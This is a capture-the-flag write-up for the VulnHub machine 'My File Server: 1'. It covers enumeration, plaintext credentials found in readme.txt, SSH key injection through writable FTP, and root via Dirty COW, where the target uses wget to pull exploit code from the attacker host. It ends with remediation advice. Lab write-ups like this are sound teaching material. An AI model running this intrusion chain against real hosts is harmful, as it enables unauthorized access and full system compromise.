





# My File Server: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.29.123 |
| **Attacker IP** | 192.168.29.208 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag (`proof.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/my-file-server-1-vulnhub-walkthrough/) |

## Attack Summary

My File Server: 1 exposes FTP with anonymous login enabled and SMB shares. Enumeration via Nikto uncovers a `readme.txt` containing the SMB user's plaintext password. FTP write access into the user's home directory allows SSH public-key injection, granting an interactive shell. Privilege escalation is achieved via the Dirty COW kernel exploit (CVE-2016-5195).

## Methodology

1. Host discovery with netdiscover
2. Full port and service scan with nmap
3. SMB user enumeration with smbmap
4. Web enumeration with Nikto to discover `readme.txt` and credentials
5. SSH key injection via anonymous FTP write access
6. Dirty COW kernel exploit for root

---

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.29.0/24
```

Use netdiscover (ARP scanning) to identify the target on the local network.

---

## Step 2: Port and Service Enumeration

```bash
nmap -p- -A 192.168.29.123
```

**Open ports:**

| Port | Service | Notes |
|---|---|---|
| 21 | FTP | Anonymous login enabled |
| 80 | HTTP | Apache web server |
| 139/445 | SMB | Samba file sharing |
| 22 | SSH | OpenSSH |



---

## Step 3: SMB Enumeration

```bash
smbmap -H 192.168.29.123
```

The output reveals a local username: `smbuser`.



---

## Step 4: Web Enumeration — Discovering Credentials

```bash
nikto -h http://192.168.29.123
```

Nikto flags a readable `readme.txt` file at the web root.

```bash
curl http://192.168.29.123/readme.txt
```

The file contains the plaintext password for `smbuser`:

```
smbuser:rootroot1
```



---

## Step 5: SSH Key Injection via FTP

Direct SSH password login times out due to server configuration. Instead, inject an SSH public key via the writable FTP home directory.

**Generate an SSH key pair on the attacker machine:**

```bash
ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa -N ""
```

**Log in to FTP as `smbuser` and upload the public key:**

```bash
ftp 192.168.29.123
# Username: smbuser  Password: rootroot1
ftp> mkdir /home/smbuser/.ssh
ftp> cd /home/smbuser/.ssh
ftp> put /root/.ssh/id_rsa.pub authorized_keys
ftp> bye
```

**Connect via SSH using the private key:**

```bash
ssh -i /root/.ssh/id_rsa smbuser@192.168.29.123
```



---

## Step 6: Privilege Escalation — Dirty COW (CVE-2016-5195)

Check the kernel version:

```bash
uname -a
```

The kernel is outdated and vulnerable to Dirty COW. Fetch the exploit from Exploit-DB (EDB-ID 40616):

```bash
# On attacker machine: host the exploit
python3 -m http.server 8000

# On target machine:
wget http://192.168.29.208:8000/40616.c -O /tmp/40616.c
cd /tmp
gcc 40616.c -o raj -pthread
./raj
```

The exploit overwrites `/etc/passwd` to add a root-level entry, then drops a root shell.

```bash
id
# uid=0(root) gid=0(root)

cat /root/proof.txt
```



---

## Lessons Learned

- Anonymous FTP with write access to a user's home directory is critical — it enables key injection without knowing the user's SSH password.
- Credentials stored in plaintext web-accessible files are trivially extracted.
- Unpatched kernels remain a reliable privilege escalation vector even when no obvious sudo misconfigurations exist.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Anonymous FTP write access | Disable anonymous FTP or restrict it to a read-only chroot jail |
| Credentials in `readme.txt` | Remove plaintext credentials from web-accessible files |
| FTP writable home directory | Restrict FTP directory permissions; use `ftpd_banner` and chroot |
| Dirty COW (CVE-2016-5195) | Patch the kernel to 4.8.3+ or apply available distribution security updates |
| SSH password-based auth | Enforce key-based SSH authentication only; disable `PasswordAuthentication` |
